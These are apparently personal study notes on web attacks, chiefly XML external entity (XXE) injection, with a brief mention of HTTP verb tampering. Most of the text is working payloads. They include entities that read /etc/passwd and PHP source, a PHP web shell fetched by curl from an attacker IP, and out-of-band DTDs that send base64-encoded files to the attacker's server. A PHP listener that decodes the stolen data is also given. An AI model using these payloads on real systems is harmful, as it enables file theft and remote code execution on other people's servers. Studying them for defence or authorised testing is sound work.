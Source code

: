 # Web attacks: on of my favorites
## HTTP tampering 

Exploiting HTTP Verb Tampering vulnerabilities is usually a relatively straightforward process. We just need to try alternate HTTP methods to see how they are handled by the web server and the web application

## XXE

Creating a doctype for example :

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
Note: In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the DOCTYPE was already declared in the XML request, we would just add the ENTITY element to it.

and we add his, below the xml version and then we reference if with `&`

We can use it for reading a file 

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

we can look for ssh keys and so on ! 

or get the source code with php filter:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

also it can be done for an RCE as follow 

    echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

and then 
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

## Advanced extraction with CDATA

in XML to extract data that will break XML content we use ` <![CDATA[ FILE_CONTENT ]]>`

One easy way to tackle this issue would be to define a begin internal entity with `<![CDATA[, an end internal entity with ]]>`, and then place our external entity file in between, and it should be considered as a CDATA element, as follows:


```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the &joined; entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.
to bypass this we'll use this method on the Attack machine

    echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
    python3 -m http.server 8000

Then on the victim we reference the joined to our http server:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.16.27:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

PS: Not all the files work with this injection
## Error based XXE

Here we use a non-existent entity and try to see if we have an error.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>a</name>
<tel></tel>
<email>&nonExistingEntity;</email>
<message>c</message>
</root>
```
we write in out host this 

    <!ENTITY % file SYSTEM "file:///etc/hosts">
    <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

and then we launch our http server and add this to the vitime payload

```xml
    <!DOCTYPE email [ 
    <!ENTITY % remote SYSTEM "http://10.10.16.27:8000/xxe.dtd">
    %remote;
    %error;
    ]>
```

## Out-of-band Data Exfiltration

This method, we will make the server convert the file to base64 and send it to us directly with those two tags :

so we write an xxe.dtd as follow 
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
we can write this php file to directly decode tha base64 received and run http server with php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
and then

  ```
  vi index.php # here we write the above PHP code
  php -S 0.0.0.0:8000
  ```
  
finally the injection payload as follow:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

to finish take a look to an automated tool for xxe:

  git clone https://github.com/enjoiz/XXEinjector.git